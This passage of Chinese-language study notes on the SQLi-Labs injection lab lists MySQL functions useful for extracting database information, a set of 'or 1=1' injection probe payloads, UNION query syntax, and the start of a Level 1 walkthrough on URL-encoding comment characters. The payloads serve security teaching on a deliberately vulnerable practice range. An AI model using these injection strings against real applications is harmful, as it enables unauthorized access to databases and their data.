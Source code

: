 # SQLi-Labs 学习笔记（Less 1-10）

 

<div class="has-toc have-toc">
</div>

## 0x00 Background-1

项目地址：<a rel="noreferrer noopener" href="https://github.com/Audi-1/sqli-labs" target="_blank" rel="nofollow" >https://github.com/Audi-1/sqli-labs</a>

Sqli-labs是SQL注入从入门到精通的专项漏洞靶场。

大佬撰写的MYSQL注入天书：<a rel="noreferrer noopener" href="https://github.com/lcamry/sqli-labs" target="_blank" rel="nofollow" >https://github.com/lcamry/sqli-labs</a>

几个常用的系统函数：

<pre class="wp-block-code"><code>version()——MySQL 版本
user()——数据库用户名
database()——数据库名
@@datadir——数据库路径
@@version_compile_os——操作系统版本</code></pre>

字符串连接函数

<pre class="wp-block-code"><code>concat(str1,str2,...)——没有分隔符地连接字符串
concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据</code></pre>

一般用于尝试的语句 Ps:--+可以用#替换，url 提交过程中 Url 编码后的#为%23

<pre class="wp-block-code"><code>or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+</code></pre>

SQL UNION 语法  
`SELECT column_name(s) FROM table_name1 UNION SELECT column_name(s) FROM table_name2`  
注释：默认地，UNION 操作符选取不同的值。如果允许重复的值，请使用 UNION ALL。  
SQL UNION ALL 语法  
`SELECT column_name(s) FROM table_name1 UNION ALL SELECT column_name(s) FROM table_name2`  
另外，UNION 结果集中的列名总是等于 UNION 中第一个 SELECT 语句中的列名。

## 0x01 Less1<figure class="wp-block-image size-full">

<img loading="lazy" width="1278" height="287" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-136.png" alt="" class="wp-image-2750" /> </figure> 

`#`注释不可用，url中#号是用来指导浏览器动作的（例如锚点），对服务器端完全无用。所以，HTTP请求中不包括`#`。将#号改成url的编码`%23`就可以了

`--`注释不可用，`--`与后面的符号连接在一起，无法形成有效的mysql语句。 将`--`号改成`--%20`就可以了。
